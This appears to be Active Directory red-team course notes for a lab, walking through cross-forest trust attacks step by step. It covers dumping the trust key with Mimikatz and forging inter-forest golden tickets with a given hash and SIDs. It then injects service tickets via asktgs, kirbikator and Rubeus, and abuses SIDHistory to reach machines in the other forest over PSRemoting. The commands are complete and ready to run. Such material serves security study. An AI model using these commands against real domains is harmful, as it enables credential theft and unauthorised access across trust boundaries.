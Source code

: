 # Cross Forest Attack - Trust Key

- [Cross Forest Attack - Trust Key](#cross-forest-attack---trust-key)
  - [Trust Key](#trust-key)
  - [Access all resources - SID History](#access-all-resources---sid-history)

---

## Trust Key

By abusing the trust flow between forests in a two way trust, it is possible to access resources across the forest boundary.

We can use the **Trust Key**, the same way as in Domain trusts but we can **access only those resources which are explicitly shared with our current forest**.

Let's try to access a file share '`eushare`' on `euvendor-dc` of `euvendor.local` forest from `eu.local` which is explicitly shared with Domain Admins of `eu.local`. 

Note:
Trust Flow:
`us.techcorp.local` <--> `eu.local` <--> `euvendor.local` 

<br/>

![picture 7](images/e1b96eb7627e2e442f2bae11051093c20dc76a69fc808aeefe5814b05ad8e021.png)  

![picture 8](images/90bd2122e80172c54c18fa7f3c9b8d30264a198dac625bff7698ff0387b3d7be.png)  

<br/>

Like intra forest scenario, we require the trust key for the inter-forest trust.

```
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
```

or

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:eu\euvendor$"'
```

Tools like `SafetyKatz` / `SharpKatz` / `BetterSafetyKatz` work as well!

<br/>

An inter-forest TGT can be forged:

```
Invoke-Mimikatz -Command '"kerberos::golden /user:administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:799a0ae7e6ce96369aa7f1e9da25175a /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-519 /ticket:C:\AD\Tools\kekeo_old\sharedwitheu.kirbi"'
```

<br/>

Get a TGS for a service (`CIFS` below) in the target forest by using the forged trust ticket. Tickets for other services like the following can be created as well.

- `HOST` and `RPCSS` for `WMI`
- `HOST` and `HTTP` for PowerShell Remoting and WinRM 

```
.\asktgs.exe C:\AD\Tools\kekeo_old\sharedwitheu.kirbi CIFS/euvendor-dc.euvendor.local
```

Use the TGS to access the target resource which must be explicitly shared:

```
.\kirbikator.exe lsa CIFS.euvendor-dc.euvendor.local.kirbi
```

```
ls \\euvendor-dc.euvendor.local\eushare\
```

<br/>

Alternatively, we can use **Rubeus**:

```
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\sharedwitheu.kirbi /service:CIFS/euvendor-dc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt
```

<br/>

## Access all resources - SID History

This is fine but why can't we access all resources just like Intra forest?

**SID Filtering** is the answer. It filters high privilege SIDs from the `SIDHistory` of a TGT crossing forest boundary. This means we cannot just go ahead and access resources in the trusting forest as an Enterprise Admin. But there is a catch:

- `S-1-5-21-<Domain>-RR` >= 1000
- Identifiers for end user-created domain identities and domain groups
- Not filtered at domain and external trust boundaries. Can be filtered at member, quarantined, and cross-forest boundaries.

See also:<br/>
https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/55fc19f2-55ba-4251-8a6a-103dd7c66280

This means, if we have an **external trust** (or a **forest trust with SID history enabled** - `/enablesidhistory:yes`), we can inject a `SIDHistory` for `RID > 1000` to access resources accessible to that identity or group in the target trusting forest.

<br/>

We had DA access to `eu.local`. Let's enumerate trusts from a PSRemoting session on `eu-dc`:

```
Get-ADTrust -Filter *
```

`SIDFilteringForestAware` is set to True, it means `SIDHistory` is enabled across the forest trust. Remember that still only `RID > 1000` SIDs will be allowed across the trust boundary.

```
Get-ADGroup -Identity EUAdmins -Server euvendor.local
```

<br/>

From `eu-dc`, create a TGT with `SIDHistory` of EUAdmins group:

```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:799a0ae7e6ce96369aa7f1e9da25175a /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /ticket:C:\Users\Public\euvendornet.kirbi"'
```

<br/>

Then request a TGS:

```
.\asktgs.exe C:\Users\Public\euvendornet.kirbi HTTP/euvendor-net.euvendor.local
```

<br/>

Inject that into current session:

```
.\kirbikator.exe lsa HTTP.euvendor-net.euvendor.local.kirbi
```

or

```
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\euvendornet.kirbi /service:HTTP/euvendor-dc.euvendor.local /ptt
```

<br/>

Access the `euvendor-net` machine using PSRemoting:

```
Invoke-Command -ScriptBlock{whoami} -ComputerName euvendor-net.euvendor.local -Authentication NegotiateWithImplicitCredential
```

<br/>

